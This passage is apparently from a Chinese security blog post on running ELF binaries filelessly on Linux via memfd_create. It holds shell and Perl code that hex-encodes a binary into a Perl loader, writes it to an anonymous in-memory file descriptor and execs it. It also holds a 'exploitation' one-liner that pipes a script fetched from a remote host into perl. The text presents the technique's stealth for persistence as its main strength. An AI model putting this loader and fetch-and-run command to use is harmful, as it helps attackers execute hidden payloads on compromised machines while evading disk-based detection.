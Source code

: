 ```shell
# Make a nice Perl file handle
open(my $FH, '>&='.$fd) or die "open: $!";
select((select($FH),$l=1)[0]);

# Load binary into anonymous file (i. e. into memory)
print "Writing ELF binary to memory...";
EOF
```



**第二部分**

```shell
perl -e '$/=\32;print"print \$FH pack q/H*/, q".(unpack"H*")."/\ or die qq/write: \$!/;\n"while(<>)' elfdemo >> elfload.pl
```



**第三部分**

```shell
cat >> elfload.pl <<EOF
print "done\n";

# Execute new program
print "Here we go...\n";
exec {"/proc/$$/fd/$fd"} "formsec"
        or die "exec: $!";
```

**利用**

```shell
curl 192.168.1.1/elfload.pl|perl
```

### 优势与劣势

优势：memfd_create提供了一种创建不落地的匿名文件的方案，这极大的增强了持久化过程的的隐身性。

劣势：memfd_create只是提供了一种匿名文件创建方法，需要和其他技术结合起来一起使用比如通过fexecve调用memfd_create创建的匿名文件句柄。




From:https://github.com/aplyc1a/blogs/blob/master/%E6%8C%81%E4%B9%85%E6%8E%A7%E5%88%B6/Linux/Linux-%E5%86%85%E5%AD%98%E6%89%A7%E8%A1%8CELF.md